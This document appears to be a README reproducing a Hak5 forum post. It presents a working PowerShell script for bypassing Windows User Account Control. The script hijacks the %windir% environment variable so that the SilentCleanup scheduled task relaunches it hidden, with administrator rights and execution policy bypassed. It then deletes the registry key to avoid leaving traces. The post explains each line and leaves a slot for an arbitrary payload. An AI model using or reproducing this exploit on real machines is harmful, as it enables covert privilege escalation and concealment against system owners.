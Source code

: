 # Windows-UAC-bypass
https://forums.hak5.org/topic/45439-powershell-real-uac-bypass/

Hi everyone!

First of all, sorry if my English is not that good, It's not my main language. I just signed up to the forum to post this, after watching the video Darren made about a payload that changes the Desktop background.

I had this idea after he mentioned that the Lockscreen background could not be changed due to the fact that there isn't a "stable" method and it needed admin privileges. So I made a script which, when opened as standard user, respawns itself in a hidden window with full admin privileges and executes whatever payload you put in it.

Here it is:

if((([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")) {
    #Payload goes here
    #It'll run as Administrator
} else {
    $registryPath = "HKCU:\Environment"
    $Name = "windir"
    $Value = "powershell -ep bypass -w h $PSCommandPath;#"
    Set-ItemProperty -Path $registryPath -Name $name -Value $Value
    #Depending on the performance of the machine, some sleep time may be required before or after schtasks
    schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I | Out-Null
    Remove-ItemProperty -Path $registryPath -Name $name
}
 

Explanation:

There's a task in Task Scheduler called "SilentCleanup" which, while it's executed as Users, automatically runs with elevated privileges. When it runs, it executes the file 

%windir%\system32\cleanmgr.exe
Since it runs as Users, and we can control user's environment variables, we can change %windir% (normally pointing to C:\Windows) to point to whatever we want, and it'll run as admin.

 

The first line

if((([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544"))
basically checks if we are admin, so that the script can detect whether it has been called by the user or by the task, and do stuff accordingly. Everything that need admin privs goes in this block of the if statement, while in the "else" block goes what can be run as standard user, including the bypass itself.

The "Set-ItemProperty" line creates a new Registry Key "HKCU:\Environment\windir" in order to change the %windir% variable value to the command we want to be run as admin, in this case 

powershell -ep bypass -w h $PSCommandPath;#
"$PSCommandPath" evaluates to our script path, "-ep bypass" is equal to "-ExecutionPolicy bypass" and "-w h" to "-WindowStyle hidden". The ";#" part is needed to comment out the rest of the path of the task from the command. 

So, in the end, the task's execution path evaluates to:

powershell -ExecutionPolicy bypass -WindowStyle hidden <path of the script> ;#\System32\cleanmgr.exe
The "schtasks" command will simply ask Windows to run the task with the now modified %windir% and "Remove-ItemProperty" will just delete the reg key after the task has been executed in order to not break other things and/or leave traces of the "attack".

When the task runs, it will call the script with full fledged admin privs, so now the first block of the if statement is executed and our payload can do whatever we want.

Note: In order to work, the code must be saved in a script file somewhere, it cannot be run directly from powershell or from the run dialog. However, if our payload is small enough to fit entirely in the %windir% variable, we can reduce the whole script to just the three fundamental lines, i.e. "Set-ItemProperty", "schtasks" and "Remove-ItemProperty". (Idk if it can fit in the run dialog though)

Note2: I think it could break if the the script is in a path that contains spaces, but I think it's easily fixable by escaping the $PSCommandPath in the $Value variable
